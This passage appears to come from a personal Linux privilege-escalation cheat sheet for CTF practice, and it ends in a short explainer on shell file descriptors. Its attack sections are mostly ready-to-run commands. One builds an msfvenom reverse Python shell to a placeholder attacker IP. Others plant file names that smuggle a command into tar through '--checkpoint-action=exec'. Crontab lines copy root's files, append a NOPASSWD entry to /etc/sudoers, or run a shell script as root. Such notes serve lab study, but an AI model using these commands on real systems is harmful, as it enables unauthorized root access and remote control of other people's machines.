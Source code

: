 If we create checkpoint files in the folder, tar will use these files to know what it has to do after compressing the files in the folder.

Create a linux shell with msfvenom
msfvenom -p cmd/unix/reverse_python  lhost=YOURIP lport=1234 R > shell.sh

Here we use checkpoint to execute the shell.sh
echo "" > "--checkpoint-action=exec=sh shell.sh"

echo "" > --checkpoint=1

* * *

## ***Privesc with CRONTAB***

https://rfc191852608710.wordpress.com/2020/07/11/tryhackme-write-up-jeff/
https://materials.rangeforce.com/tutorial/2020/04/17/Cron-Privilege-Escalation/

If we can run sudo with a user than we try to create a new task to get a shell or the root file.

Get cron task file for the actual user

sudo crontab -e

Adding a new taks

* * * * * /bin/cp /root/root.txt /tmp/root.txt; /bin/chmod 777 /tmp/root.txt >/dev/null 2>&1

OR

*/1 * * * * echo "jeff ALL=(ALL) NOPASSWD:ALL" >> /etc/sudoers

OR

*/1 * * * * /usr/bin/sudo /usr/bin/bash /tmp/shell.sh

* * *

## ***File descriptors***

https://unix.stackexchange.com/questions/42728/what-does-31-12-23-do-in-a-script

***
***

0 - stdin
1 - stdout
2 - stderr

So each of these numbers in your command refer to a file descriptor. You can either redirect a file descriptor to a file with > or redirect it to another file descriptor with >&

The 3>&1 in your command line will create a new file descriptor and redirect it to 1 which is STDOUT. Now 1>&2 will redirect the file descriptor 1 to STDERR and 2>&3 will redirect file descriptor 2 to 3 which is STDOUT.

So basically you switched STDOUT and STDERR, these are the steps:

1. Create a new fd 3 and point it to the fd 1
